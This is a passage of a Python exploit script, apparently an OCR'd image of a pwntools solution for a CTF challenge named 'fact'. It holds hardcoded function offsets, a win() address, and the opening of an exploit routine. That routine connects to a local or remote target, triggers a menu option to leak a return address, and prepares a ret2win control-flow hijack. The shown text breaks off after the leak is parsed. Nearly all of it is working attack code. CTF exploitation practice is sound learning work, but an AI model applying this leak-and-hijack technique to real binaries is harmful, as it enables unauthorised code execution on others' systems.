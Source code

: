 ```python3
        'square_root':      0x1582,  # call square_root_facts → ret-addr 0x1587
        'multiplication':   0x159b,  # call multiplication_facts → ret-addr 0x15a0
        'xor':              0x15b4,  # call xor_facts → ret-addr 0x15b9
    },
    'WIN_OFFSET': 0x169f,     # win() function offset
}
# ────────────────────────────────────────────────

def print_delayed(text, delay=1):
    """Prints the text with a delay."""
    print(text)
    time.sleep(delay)

def print_step(text):
    """Prints a step with a description."""
    print(f"[+] {text}")

def parse_args():
    parser = argparse.ArgumentParser(
        description="Exploit script for fact (CTF challenge) – Leak + ret2win"
    )
    parser.add_argument(
        '--remote', action='store_true',
        help="Connect to remote host instead of local binary"
    )
    parser.add_argument(
        '--branch', choices=CONFIG['BRANCH_OFFSETS'].keys(),
        default='square_root',
        help="Which function to leak and exploit"
    )
    return parser.parse_args()

def exploit(branch_name, remote_mode):
    """
    Executes the exploit:
    1) Leak the return address of the selected fact function
    2) Calculate the absolute address of win()
    3) Perform ret2win with the payload
    """
    # 1) Setup Connection
    if remote_mode:
        conn = remote(CONFIG['HOST'], CONFIG['PORT'])
        print_step(f"Connecting to {CONFIG['HOST']}:{CONFIG['PORT']} (remote)")
    else:
        conn = process(CONFIG['BINARY'])
        print_step(f"Starting local process: {CONFIG['BINARY']}")

    # 2) Interactive name phase (steps a and b)
    conn.sendline(b'test')
    print_step("Sending 'test' to start interaction.")
    conn.sendline(b'b')  # Select b: Do math! → leak
    print_step("Sending 'b' to leak return address...")
    
    # Read until the prompt ", did you", to capture the leak
    data = conn.recvuntil(b', did you')
    print_step("Captured output after calling 'b'. Extracting leak...")

    # Extract the raw bytes between "Exit\n" and ", did you"
    leaked_bytes = data.split(b'Exit\n', 1)[1].split(b', did you', 1)[0]
    leaked_ret = int.from_bytes(leaked_bytes, 'little')

    # Print leak information
    print_step(f"Leaked raw bytes: {leaked_bytes!r}")
```